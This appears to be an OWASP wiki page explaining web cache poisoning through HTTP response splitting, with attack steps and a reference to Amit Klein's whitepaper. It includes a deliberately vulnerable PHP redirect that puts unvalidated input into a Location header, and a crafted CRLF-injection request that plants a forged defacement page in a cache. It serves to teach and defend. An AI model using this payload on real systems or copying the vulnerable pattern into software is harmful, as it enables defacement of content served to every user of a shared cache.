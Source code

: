 ```yaml
---

layout: col-sidebar
title: Cache Poisoning
author: 
contributors: 
permalink: /attacks/Cache_Poisoning
tags: attack, Cache Poisoning
auto-migrated: 1

---
```


Last revision (mm/dd/yy): **04/23/2009**

## Description

The impact of a maliciously constructed response can be magnified if it
is cached either by a web cache used by multiple users or even the
browser cache of a single user. If a response is cached in a shared web
cache, such as those commonly found in proxy servers, then all users of
that cache will continue to receive the malicious content until the
cache entry is purged. Similarly, if the response is cached in the
browser of an individual user, then that user will continue to receive
the malicious content until the cache entry is purged, although only the
user of the local browser instance will be affected.

To successfully carry out such an attack, an attacker:

  - Finds the vulnerable service code, which allows them to fill the
    HTTP header field with many headers.
  - Forces the cache server to flush its actual cache content, which we
    want to be cached by the servers.
  - Sends a specially crafted request, which will be stored in cache.
  - Sends the next request. The previously injected content stored in
    cache will be the response to this request.

This attack is rather difficult to carry out in a real environment. The
list of conditions is long and hard to accomplish by the attacker.
However it's easier to use this technique than [Cross-User
Defacement](Cross-User_Defacement "wikilink").

A Cache Poisoning attack is possible because of [HTTP Response
Splitting](HTTP_Response_Splitting "wikilink") and flaws in the web
application. It is crucial from the attacker's point of view that the
application allows for filling the header field with more than one
header using CR (Carriage Return) and LF (Line Feed) characters.

## Examples

We have found a web page, which gets its service name from the "page"
argument and then redirects (302) to this service.

e.g. <http://testsite.com/redir.php?page=http://other.testsite.com/>

And exemplary code of the redir.php:

    rezos@dojo ~/public_html $ cat redir.php
    <?php
    header ("Location: " . $_GET['page']);
    ?>

Crafting appropriate request: \[1\]

1 - remove page from the cache

    GET http://testsite.com/index.html HTTP/1.1
    Pragma: no-cache
    Host: testsite.com
    User-Agent: Mozilla/4.7 [en] (WinNT; I)
    Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg,
    image/png, */*
    Accept-Encoding: gzip
    Accept-Language: en
    Accept-Charset: iso-8859-1,*,utf-8

HTTP header fields "Pragma: no-cache" or "Cache-Control: no-cache" will
remove the page from cache (if the page is stored in cache, obviously).

2 - using HTTP Response Splitting we force cache server to generate two
responses to one request

    GET http://testsite.com/redir.php?site=%0d%0aContent-
    Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aLast-
    Modified:%20Mon,%2027%20Oct%202009%2014:50:18%20GMT%0d%0aConte
    nt-Length:%2020%0d%0aContent-
    Type:%20text/html%0d%0a%0d%0a<html>deface!</html> HTTP/1.1
    Host: testsite.com
    User-Agent: Mozilla/4.7 [en] (WinNT; I)
    Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg,
    image/png, */*
    Accept-Encoding: gzip
    Accept-Language: en
    Accept-Charset: iso-8859-1,*,utf-8

We are intentionally setting the future time (in the header it's set to
27 October 2009) in the second response HTTP header "Last-Modified" to
store the response in the cache.

We may get this effect by setting the following headers:

  - Last-Modified (checked byt the If-Modified-Since header)
  - ETag (checked by the If-None-Match header)

3 - sending request for the page, which we want to replace in the cache
of the server

    GET http://testsite.com/index.html HTTP/1.1
    Host: testsite.com
    User-Agent: Mozilla/4.7 [en] (WinNT; I)
    Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg,
    image/png, */*
    Accept-Encoding: gzip
    Accept-Language: en
    Accept-Charset: iso-8859-1,*,utf-8

In theory, the cache server should match the second answer from the
request \#2 to the request \#3. In this way we've replaced the cache
content.

The rest of the requests should be executed during one connection (if
the cache server doesn't require a more sophisticated method to be
used), possibly immediately one after another.

It may appear problematic to use this attack as a universal technique for
cache poisoning. It's due to cache server's different connection model
and request processing implementations. What does it mean? That for
example effective method to poison Apache 2.x cache with mod_proxy and
mod_cache modules won't work with Squid.

A different problem is the length of the URI, which sometime makes it
impossible to put the necessary response header, which would next be
matched to the request for the poisoned page.

The request examples used are from \[1\], which were modified on the
needs of the article.

More information can be found in this document, which focuses on these
kinds of attacks \[1\]
<http://packetstormsecurity.org/papers/general/whitepaper_httpresponse.pdf>
by Amit Klein, Director of Security and Research

## Related [Threat Agents](Threat_Agent "wikilink")

  - TBD

## Related [Attacks](https://owasp.org/www-community/attacks/)

  - [HTTP Response Splitting](HTTP_Response_Splitting "wikilink")
  - [Cross-User_Defacement](Cross-User_Defacement "wikilink")

## Related [Vulnerabilities](https://owasp.org/www-community/vulnerabilities/)

  - [:Category:Input Validation
    Vulnerability](:Category:Input_Validation_Vulnerability "wikilink")

## Related [Controls](https://owasp.org/www-community/controls/)

  - [Input_Validation](Input_Validation "wikilink")
  - [Canonicalization](Canonicalization "wikilink")

## References

TBD

[need to update now that it's 2009](Category:FIXME "wikilink") [I wasn't
sure what the first 2 sentences were trying to say, can someone take a
look at these?](Category:FIXME "wikilink") [Category:Input
Validation](Category:Input_Validation "wikilink") [Category:Abuse of
Functionality](Category:Abuse_of_Functionality "wikilink")
[Category:Attack](Category:Attack "wikilink") [Category:OWASP ASDR
Project](Category:OWASP_ASDR_Project "wikilink")